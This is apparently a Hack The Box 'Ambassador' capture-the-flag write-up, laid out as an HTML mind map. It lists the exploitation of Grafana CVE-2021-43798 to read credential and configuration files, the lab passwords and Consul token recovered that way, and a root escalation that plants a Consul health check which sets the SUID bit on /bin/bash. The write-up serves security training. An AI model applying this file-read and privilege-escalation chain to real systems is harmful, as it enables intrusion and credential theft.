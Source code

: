 ```yaml
---
title: "Hack The Box - Ambassador [Medium]"
date: 2023-08-21T19:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


+++```
<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<meta http-equiv="X-UA-Compatible" content="ie=edge">
<title>Markmap</title>
<style>
* {
  margin: 0;
  padding: 0;
}
#mindmap {
  display: block;
  width: 100vw;
  height: 100vh;
}
</style>
<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@highlightjs/cdn-assets@11.8.0/styles/default.min.css"><link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/style.css">
</head>
<body>
<svg id="mindmap"></svg>
<script src="https://cdn.jsdelivr.net/npm/d3@7.8.5/dist/d3.min.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-view@0.15.3/dist/browser/index.js"></script><script src="https://cdn.jsdelivr.net/npm/markmap-toolbar@0.15.3/dist/index.js"></script><script>(r => {
                setTimeout(r);
              })(() => {
  const {
    markmap,
    mm
  } = window;
  const {
    el
  } = markmap.Toolbar.create(mm);
  el.setAttribute('style', 'position:absolute;bottom:20px;right:20px');
  document.body.append(el);
})</script><script>((getMarkmap, getOptions, root, jsonOptions) => {
          const markmap = getMarkmap();
          window.mm = markmap.Markmap.create('svg#mindmap', (getOptions || markmap.deriveOptions)(jsonOptions), root);
        })(() => window.markmap,null,{"type":"heading","depth":0,"payload":{"lines":[0,1]},"content":"Ambassador","children":[{"type":"heading","depth":1,"payload":{"lines":[2,3]},"content":"PORTS","children":[{"type":"heading","depth":2,"payload":{"lines":[4,5]},"content":"TCP","children":[{"type":"list_item","depth":3,"payload":{"lines":[6,7]},"content":"Discovered open port 3306/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[7,8]},"content":"MySQL 8.0.30-0ubuntu0.20.04.2","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[8,9]},"content":"Discovered open port 80/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[9,10]},"content":"Hugo 0.94.2","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[10,11]},"content":"http-title: Ambassador Development Server","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[11,12]},"content":"Discovered open port 22/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[12,13]},"content":"OpenSSH 8.2p1 Ubuntu 4ubuntu0.5","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[13,14]},"content":"Discovered open port 3000/tcp on 10.10.11.183","children":[{"type":"list_item","depth":4,"payload":{"lines":[14,15]},"content":"HTTP/1.0 302 Found","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[16,17]},"content":"UDP","children":[{"type":"list_item","depth":3,"payload":{"lines":[18,19]},"content":"None","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[20,21]},"content":"HTTP 10.10.11.183:80","children":[{"type":"heading","depth":2,"payload":{"lines":[24,25]},"content":"Content","children":[{"type":"list_item","depth":3,"payload":{"lines":[28,29]},"content":"user: <code>developer</code>","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[31,32]},"content":"HTTP 10.10.11.183:3000","children":[{"type":"heading","depth":2,"payload":{"lines":[35,36]},"content":"Content","children":[{"type":"heading","depth":3,"payload":{"lines":[37,38]},"content":"Unauthorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[38,39]},"content":"Grafana[8.2.0]","children":[]}]},{"type":"heading","depth":3,"payload":{"lines":[40,41]},"content":"Authorized","children":[{"type":"list_item","depth":4,"payload":{"lines":[42,43]},"content":"Data Source - <code>mysql.yml</code>","children":[]}]}]},{"type":"heading","depth":2,"payload":{"lines":[44,45]},"content":"Login","children":[{"type":"heading","depth":3,"payload":{"lines":[46,47]},"content":"<code>admin:messageInABottle685427</code>","children":[]}]},{"type":"heading","depth":2,"payload":{"lines":[48,49]},"content":"CVEs","children":[{"type":"heading","depth":3,"payload":{"lines":[50,51]},"content":"CVE-2021-43798 *","children":[{"type":"fence","depth":4,"content":"<pre><code><span class=\"hljs-symbol\">developer:</span><span class=\"hljs-symbol\">x:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:</span><span class=\"hljs-number\">1000</span><span class=\"hljs-symbol\">:developer</span><span class=\"hljs-symbol\">:/home/developer</span><span class=\"hljs-symbol\">:/bin/bash</span>\n</code></pre>\n","children":[],"payload":{"lines":[52,55]}},{"type":"bullet_list","depth":4,"payload":{"lines":[56,63]},"content":"","children":[{"type":"list_item","depth":5,"payload":{"lines":[56,57]},"content":"<code>/var/lib/grafana/grafana.db</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[57,58]},"content":"<code>/etc/mysql/mysql.conf.d/mysqld.cnf</code>","children":[]},{"type":"list_item","depth":5,"payload":{"lines":[58,59]},"content":"<code>/etc/grafana/grafana.ini</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[59,60]},"content":"<code>admin_password = messageInABottle685427</code>","children":[]}]},{"type":"list_item","depth":5,"payload":{"lines":[60,61]},"content":"<code>/etc/grafana/provisioning/datasources/mysql.yml</code>","children":[{"type":"list_item","depth":6,"payload":{"lines":[61,62]},"content":"<code>grafana:dontStandSoCloseToMe63221!</code>","children":[]}]}]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[63,64]},"content":"DB 3306","children":[{"type":"list_item","depth":2,"payload":{"lines":[67,68]},"content":"<code>use whackywidget; -&gt; select * from users; -&gt; developer:YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[68,69]},"content":"<code>anEnglishManInNewYork027468</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[69,70]},"content":"userFlag","children":[]}]}]}]},{"type":"heading","depth":1,"payload":{"lines":[71,72]},"content":"SSH 22","children":[{"type":"list_item","depth":2,"payload":{"lines":[75,76],"index":1},"content":"1. Files on the System","children":[{"type":"list_item","depth":3,"payload":{"lines":[76,77]},"content":"<code>/home/developer/.gitconfig</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[77,78]},"content":"<code>/opt/my-app/</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[78,79]},"content":"<code>/opt/my-app/put-config-in-consul.sh</code>","children":[{"type":"list_item","depth":5,"payload":{"lines":[79,80]},"content":"<code>consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD</code>","children":[]}]}]},{"type":"list_item","depth":3,"payload":{"lines":[80,81]},"content":"<code>/home/developer/.profile</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[81,82]},"content":"<code>/home/developer/.bash_history</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[82,83]},"content":"<code>/root/</code> ?","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[83,84]},"content":"<code>consul</code> *","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[84,85]},"content":"<code>/opt/consul/raft/raft.db</code>","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[85,86]},"content":"<code>/development-machine-documentation/*</code>","children":[{"type":"list_item","depth":4,"payload":{"lines":[86,87]},"content":"<code>/development-machine-documentation/deploy.sh</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[87,88]},"content":"<code>/opt/my-app/whackywidget/put-config-in-consul.sh</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[88,89],"index":2},"content":"2. Installed Applications","children":[{"type":"list_item","depth":3,"payload":{"lines":[89,90]},"content":"consul","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[90,91],"index":3},"content":"3. Network","children":[{"type":"list_item","depth":3,"payload":{"lines":[91,92]},"content":"tcp 127.0.0.1:8300","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[92,93]},"content":"tcp 127.0.0.1:8301","children":[{"type":"list_item","depth":4,"payload":{"lines":[93,94]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[94,95]},"content":"tcp 127.0.0.1:8302","children":[{"type":"list_item","depth":4,"payload":{"lines":[95,96]},"content":"empty reply for HTTP","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[96,97]},"content":"tcp 127.0.0.1:8500","children":[{"type":"list_item","depth":4,"payload":{"lines":[97,98]},"content":"Consul UI","children":[]},{"type":"list_item","depth":4,"payload":{"lines":[98,99]},"content":"Content: <code>Consul Agent: UI disabled. To enable, set ui_config.enabled=true in the agent configuration and restart</code>","children":[]}]},{"type":"list_item","depth":3,"payload":{"lines":[99,100]},"content":"tcp 127.0.0.1:8600","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[100,101]},"content":"tcp 127.0.0.1:3306","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[101,102],"index":4},"content":"4. Running Processes","children":[{"type":"list_item","depth":3,"payload":{"lines":[102,103]},"content":"<code>/usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[103,104],"index":5},"content":"5. Scheduled Jobs/Tasks","children":[{"type":"list_item","depth":3,"payload":{"lines":[104,105]},"content":"<code>find /etc/consul.d/config.d/* -mmin +10 -delete</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[105,106],"index":6},"content":"6. System","children":[{"type":"list_item","depth":3,"payload":{"lines":[106,107]},"content":"Sudo version 1.8.31","children":[]},{"type":"list_item","depth":3,"payload":{"lines":[107,108]},"content":"PermitRootLogin yes","children":[]}]}]},{"type":"heading","depth":1,"payload":{"lines":[109,110]},"content":"Consul Research","children":[{"type":"list_item","depth":2,"payload":{"lines":[111,112]},"content":"https://www.hashicorp.com/blog/protecting-consul-from-rce-risk-in-specific-configurations","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[112,113]},"content":"https://developer.hashicorp.com/consul/docs/services/usage/checks","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[113,114]},"content":"https://developer.hashicorp.com/consul/commands/exec","children":[]}]},{"type":"heading","depth":1,"payload":{"lines":[115,116]},"content":"Root","children":[{"type":"list_item","depth":2,"payload":{"lines":[116,117]},"content":"<code>export CONSUL_HTTP_TOKEN=bb03b43b-1d81-d62b-24b5-39540ee469b5</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[117,118]},"content":"<code>consul catalog nodes</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[118,119]},"content":"<code>ambassador 27361fb5-583a-5db0-27bf-ecfed7b4b669 127.0.0.1 dc1 lan=127.0.0.1, lan_ipv4=127.0.0.1, wan=127.0.0.1, wan_ipv4=127.0.0.1 consul-network-segment=</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[119,120]},"content":"<code>find / -type d -writable 2&gt;/dev/null</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[120,121]},"content":"<code>/etc/consul.d/config.d</code>","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[121,122]},"content":"<code>touch /etc/consul.d/config.d/syl.hcl</code>","children":[{"type":"list_item","depth":3,"payload":{"lines":[122,137]},"content":"<pre><code class=\"language-hcl\">service {\n    name = &quot;dummy-service&quot;\n    id   = &quot;dummy-service-1&quot;\n    port = 8080\n\n    check = {\n        id = &quot;mem-util&quot;\n        name = &quot;Memory utilization&quot;\n        args = [&quot;chmod&quot;, &quot;u+s&quot;, &quot;/bin/bash&quot;]\n        interval = &quot;10s&quot;\n        timeout = &quot;1s&quot;\n    }\n}\n</code></pre>\n","children":[]}]},{"type":"list_item","depth":2,"payload":{"lines":[137,138]},"content":"<code>consul reload</code>","children":[]},{"type":"list_item","depth":2,"payload":{"lines":[138,139]},"content":"<code>/bin/bash -p</code>","children":[]}]}]},{})</script>
</body>
</html>
+++```
